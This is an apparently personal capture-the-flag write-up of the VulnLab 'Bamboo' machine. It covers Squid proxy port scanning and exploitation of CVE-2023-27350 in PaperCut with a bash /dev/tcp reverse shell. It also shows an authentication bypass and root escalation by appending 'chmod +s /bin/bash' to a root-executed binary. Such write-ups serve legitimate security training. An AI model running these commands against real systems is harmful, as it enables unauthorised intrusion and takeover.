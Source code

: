 ```yaml
---
title: VulnLab -- Bamboo Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [web exploitaion,cve,squid proxy]
image:
    path: /images/bamboo-banner.png
---
```

# Bamboo

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Bamboo** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/bamboo-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,3128 --min-rate=1000 10.10.110.40
```

![image.png](../images/bamboo.png)

> Notice that we have the squid port open which mean we can scan the internal ports
> 

Now let’s scan the internal ports

```bash
./squidscan
```

![image.png](../images/bamboo%201.png)

Now let’s add the proxy to our proxy configurations 

```bash
http 10.10.110.40 3128
```

![image.png](../images/bamboo%202.png)

Now let’s curl the new port

```bash
curl --proxy http://10.10.110.40:3128 http://10.10.110.40:9191 -v
```

![image.png](../images/bamboo%203.png)

Now let’s search for a CVE for this

![image.png](../images/bamboo%204.png)

now let’s gain RCE

First open a listener

```bash
nc -lvnp 1337
```

![image.png](../images/bamboo%205.png)

now let’s run the CVE

```bash
proxychains -q python3 CVE-2023-27350.py -u "http://10.10.110.40:9191" -c "bash -i >& /dev/tcp/10.8.5.233/1337 0>&1"
```

![image.png](../images/bamboo%206.png)

now let’s see the listener

![image.png](../images/bamboo%207.png)

and we got a shell

Now let’s stabilize the shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image.png](../images/bamboo%208.png)

Now let’s hit CTRL + Z

![image.png](../images/bamboo%209.png)

now let’s go and type this

```bash
stty raw -echo;fg
```

![image.png](../images/bamboo%2010.png)

Now exporting tty

```bash
export TERM=xterm
```

![image.png](../images/bamboo%2011.png)

now let’s forward the port 9191

```bash
ssh -L 9191:127.0.0.1:9191 papercut@10.10.110.40
```

![image.png](../images/bamboo%2012.png)

now let’s access the website

![image.png](../images/bamboo%2013.png)

now let’s search for authentication bypass vuln

![image.png](../images/bamboo%2014.png)

we found on so let’s abuse it

```bash
python3 bypass.py
```

![image.png](../images/bamboo%2015.png)

now let’s see if we bypassed the auth 

![image.png](../images/bamboo%2016.png)

and we did!

now let’s do it again and monitor with pspy64

```bash
./pspy64
```

![image.png](../images/bamboo%2017.png)

notice that there is a binary named server-command is executed so let’s overwrite it

```bash
echo "chmod +s /bin/bash" >> /home/papercut/server/bin/linux-x64/server-command
```

![image.png](../images/bamboo%2018.png)

now go back to the website and click refresh servers 

![image.png](../images/bamboo%2019.png)

Now let’s see the SUID binary on /bin/bash 

```bash
ls -als /bin/bash
```

![image.png](../images/bamboo%2020.png)

now let’s exploit it

```bash
/bin/bash -p
```

![image.png](../images/bamboo%2021.png)

notice that we got root access so let’s go and see the root flag

```bash
cd /root;ls -las
```

![image.png](../images/bamboo%2022.png)

Amazing we got the root flag 🥳

![image.png](../images/bamboo%2023.png)

That’s it for the **Bamboo** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX